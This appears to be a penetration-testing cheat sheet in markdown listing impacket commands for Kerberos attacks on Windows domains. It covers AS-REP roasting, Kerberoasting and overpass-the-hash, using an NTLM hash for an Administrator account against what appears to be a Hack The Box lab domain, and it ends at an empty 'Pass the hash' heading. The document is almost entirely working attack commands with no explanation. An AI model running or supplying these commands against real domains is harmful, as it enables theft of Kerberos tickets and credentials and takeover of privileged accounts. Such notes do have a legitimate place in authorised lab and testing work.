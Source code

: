 Kerberos
========================

AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```


## Overpass the hash

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist

## Pass the hash